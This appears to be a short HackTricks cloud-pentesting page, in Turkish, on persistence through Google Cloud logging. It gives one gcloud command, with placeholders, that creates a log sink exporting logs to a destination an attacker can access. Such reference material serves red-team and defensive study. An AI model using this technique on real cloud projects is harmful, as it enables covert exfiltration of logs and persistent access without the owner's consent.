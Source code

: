 # GCP - Logging Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Logging

Logging hakkında daha fazla bilgi için:

{{#ref}}
../gcp-services/gcp-logging-enum.md
{{#endref}}

### `logging.sinks.create`

Logları bir saldırganın erişebileceği bir hedefe dışa aktarmak için bir sink oluşturun:
```bash
gcloud logging sinks create <sink-name> <destination> --log-filter="FILTER_CONDITION"
```
{{#include ../../../banners/hacktricks-training.md}}
